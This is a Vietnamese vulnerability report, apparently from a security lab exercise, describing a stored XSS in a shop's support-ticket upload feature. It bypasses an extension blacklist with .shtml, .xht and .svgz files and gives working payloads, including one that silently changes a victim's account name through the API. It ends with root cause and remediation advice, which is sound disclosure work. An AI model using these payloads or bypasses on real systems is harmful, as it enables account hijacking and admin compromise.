






# Unrestricted File Upload dẫn đến Stored XSS qua chức năng support

## Summary

- **Title:** Unrestricted File Upload dẫn đến Stored XSS qua chức năng support
- **Severity:** High
- **Affected asset / URL:**
  - Gửi payload: `http://brewcart.cyberjutsu-lab.tech/support` — endpoint `POST /api/member/support/tickets/:id/attachments`
  - Kích hoạt payload: `http://brewcart.cyberjutsu-lab.tech/uploads/<tên_tệp>` (và tương đương trên `http://admin.brewcart.cyberjutsu-lab.tech/uploads/<tên_tệp>`)

## Reproduce

**Phía Attacker:**

1. Đăng nhập tài khoản khách hàng thông thường, vào `/support`, tạo một phiếu hỗ trợ mới.
2. Tại trang chi tiết phiếu, dùng chức năng "Tải lên" để đính kèm tệp, đặt tên với đuôi `.shtml`, `.xht`, hoặc `.svgz`. Mỗi đuôi được parse bằng engine khác nhau (HTML parser vs XML/SVG parser nghiêm ngặt) nên cần payload đúng cấu trúc tương ứng:

   ```html
   <!-- poc.shtml -->
   <html>
     <body>
       <script>
         alert(document.domain);
       </script>
     </body>
   </html>
   ```

   ```xml
   <!-- poc.xht -->
   <html xmlns="http://www.w3.org/1999/xhtml">
     <head><title>x</title></head>
     <body>
     <script>alert(document.domain)</script>
     </body>
   </html>
   ```

   ```xml
   <!-- poc.svgz -->
   <svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"></svg>
   ```

   Hệ thống chỉ chặn theo blacklist (`.html`, `.htm`, `.php`, `.xml`, `.svg`, `.phtml`, `.phar`...) chứ không dùng whitelist hay kiểm tra nội dung thực tế, nên 3 đuôi trên lọt qua.

3. Server trả về đường dẫn tệp đã lưu, ví dụ `/uploads/1789375489625-evil.shtml` — tệp này **public, không cần đăng nhập**, và dùng chung giữa cả 2 subdomain. Kể cả đuôi `.xht` và `.svgz` cũng vậy.
4. Gửi liên kết này cho victim (đính kèm trong nội dung ticket, hoặc bất kỳ kênh nào).

**Phía Victim:**

1. Mở liên kết `/uploads/1789375489625-evil.shtml` do attacker gửi.
2. Server trả `Content-Type: text/html` (`.shtml`) / `application/xhtml+xml` (`.xht`) / `image/svg+xml` (`.svgz`) → trình duyệt parse và thực thi `<script>` ngay trên origin thật, xác nhận qua `alert(document.domain)` hiện đúng domain victim đang truy cập.

## Proof of Impact

Đã thử payload có tác động thực tế — gọi `PATCH /api/member/me` bằng session nạn nhân để đổi thông tin tài khoản mà họ không hề tự thực hiện:

```html

```

Payload trên chạy nguyên bản trên `.shtml`. Với `.xht`/`.svgz`, chỉ cần đổi phần bọc ngoài cho khớp luật parse XML/SVG (root + `xmlns`, `` tự đóng, dùng `onload` thay `onerror` cho SVG), logic payload giữ nguyên:

```xml
<!-- poc.xht -->
<html xmlns="http://www.w3.org/1999/xhtml"><body>

</body></html>
```

```xml
<!-- poc.svgz -->
<svg xmlns="http://www.w3.org/2000/svg" onload="fetch('/api/member/me', {method:'PATCH', headers:{'Content-Type':'application/json'}, body:JSON.stringify({name:'Xss Thành công nhân'})})"></svg>
```

Đã kiểm chứng: sau khi mở link tương ứng, `name` của tài khoản nạn nhân đổi thành `Xss Thành công nhân` trên cả 3 đuôi tệp và xác nhận script chạy dưới session thật của nạn nhân.

## Evidence

**Ảnh 1. Tải lên các tệp `.shtml`, `.xht`, `.svgz` qua chức năng đính kèm tệp trong phiếu hỗ trợ**



**Ảnh 2. Server chấp nhận tải lên và lưu trữ công khai tại thư mục `/uploads/`**



**Ảnh 3. Nạn nhân mở tệp `.svgz` do attacker gửi, script thực thi và kích hoạt alert(document.domain) trên domain thật**



**Ảnh 4. Mở tệp trên subdomain quản trị admin.brewcart.cyberjutsu-lab.tech, script vẫn thực thi và kích hoạt alert trên origin Admin**



**Ảnh 5. Tải lên tệp payload thực tế (testpoc.shtml) gọi API PATCH /api/member/me**



**Ảnh 6. Nạn nhân mở tệp độc hại, tên tài khoản bị tự động đổi thành `Xss Thành công nhân`**



**_chi tiết các bước qua video Poc:_**
[PoC Video](https://drive.google.com/drive/folders/1wyT6-65Z0zQVnMhjSbEBpIMBXF8cPcLk?usp=sharing)

## Root cause

Endpoint `POST /api/member/support/tickets/:id/attachments` dùng **blacklist chưa đầy đủ** thay vì whitelist, và không kiểm tra nội dung thực tế (magic bytes) của tệp. Khi serve tĩnh tại `/uploads/`, server gán `Content-Type` theo phần mở rộng các đuôi ít phổ biến `.shtml`, `.xht`, `.svgz` không nằm trong blacklist nhưng vẫn map về loại nội dung trình duyệt thực thi được (`text/html`, `application/xhtml+xml`, `image/svg+xml`). Thư mục `/uploads/` cũng thiếu `Content-Disposition: attachment` và `X-Content-Type-Options: nosniff` để chặn việc render trực tiếp.

## Impact

- **Chiếm dụng session để hành động thay nạn nhân:** cookie `HttpOnly` không đọc trực tiếp được, nhưng script vẫn gọi API kèm `credentials:"include"` để thực hiện hành động dưới quyền nạn nhân chỉ bằng việc họ mở 1 link.
- **Nhắm vào Quản trị viên:** file dùng chung trên `admin.brewcart.cyberjutsu-lab.tech`, nếu admin mở link, script có thể đọc `/api/admin/dashboard`, `/api/admin/orders`, `/api/admin/support/tickets`, thao túng nghiệp vụ qua `/api/admin/coupons`, `/api/admin/reviews`, hoặc mở rộng tấn công qua `/api/admin/products/:id/fetch-image`.
- **Không cần xác thực để trigger:** `/uploads/` public hoàn toàn, tương đương một trang phishing/XSS host ngay trên domain uy tín, có thể nhắm vào bất kỳ người dùng nào có link, không riêng admin.

## Recommended remediation

1. Chuyển sang **whitelist extension** (`.jpg`, `.jpeg`, `.png`, `.gif`, `.webp`, `.pdf`, `.docx`, `.zip`), từ chối mọi extension khác.
2. Kiểm tra **nội dung thực tế** (magic bytes) của tệp, không chỉ dựa vào tên/`Content-Type` client gửi.
3. Set `Content-Disposition: attachment` cho mọi response từ `/uploads/`.
4. Set `X-Content-Type-Options: nosniff` toàn cục.
5. Tách domain phục vụ file upload sang subdomain/CDN riêng, không chung origin/cookie với ứng dụng chính.
6. Trả `HTTP 400` rõ ràng khi từ chối tệp không hợp lệ, thay vì `HTTP 500` như hiện tại.
